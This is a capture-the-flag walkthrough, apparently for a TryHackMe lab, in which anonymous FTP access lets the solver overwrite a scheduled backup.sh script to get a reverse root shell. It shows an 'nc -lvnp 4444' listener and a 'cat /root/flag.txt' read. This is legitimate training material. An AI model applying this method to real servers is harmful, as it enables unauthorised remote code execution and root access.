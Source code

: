 # Anyone can be Santa!

Before we begin, we're going to need to deploy two Instances:

	1. The THM AttackBox by pressing the "Start AttackBox" button at the top-right of the page.
	2. The vulnerable Instance attached to this task by pressing the "Deploy" button at the top-right of this task/day.

- Name the directory on the FTP server that has data accessible by the "anonymous" user

	- `ftp <TARGET_IP>` and enter `anonymous` 
	- `public`

- What script gets executed within this directory?

	- `backup.sh`

- What movie did Santa have on his Christmas shopping list?

	- (ftp) `get shoppinglist.txt`
	- `The polar express`

- Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!
Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have setup a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

	- Insert your IP address in `backup.sh` where is the lable.
	- (ftp) `put backup.sh`
	- On your machine `nc -lvnp 4444`
	- You should get a root shell in a minute.
	- `cat /root/flag.txt`
	- `THM{****_***_***_**_*****}`




